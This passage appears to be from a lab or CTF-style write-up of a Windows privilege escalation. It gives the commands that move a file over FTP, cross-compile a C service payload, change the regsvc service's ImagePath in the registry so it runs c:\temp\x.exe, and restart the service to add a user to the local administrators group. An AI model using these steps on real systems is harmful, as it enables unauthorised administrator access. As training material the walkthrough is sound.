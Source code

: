 We need to copy a file from the victim machine over to our machine.  We can do this by starting an FTP server on our device with python

`python3 -m pyftpdlib -p 21 --write` 

This did require installing this tool using `sudo apt install python3-pyftpdlib`

This should give write access and set the server up on port 21.  And then back on the Victim machine, we transfer over the file using ftp.

![pic13](Images/pic13.png)

And then use the `put` command to put the file that you want to move over and work with.

Once we move the file over, we use gedit to edit the file.  Then we can compile it since it's a C program.

`x86_64-w64-mingw32-gcc windows_service.c -o x.exe`

Then we use the `get` command in the ftp window to get the command and then move it to the Temp folder.  And then run the following command on the victim machine.

`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`

This is adding to the registery.  `/v ImagePath` is the registry key that contains the path of the Image file.  This is what is tying the `x.exe` to the registry service, `regsvc`.  It is saying that when the `regsvc` starts, that it should run the file `c:\temp\x.exe` as part of it's process.  The `/t REG_EXPAND_SZ` part is just saying that this type (/t) is a regular string value, `/d c:\temp\x.exe`.  `/f` is just saying to not prompt for this action, do it quietly.

You should get back that the operation completed successfully.  Then run a simple restart of the service.

`sc start regsvc`

Now when you check the `net localgroup administrators` you should see the user `User` listed.



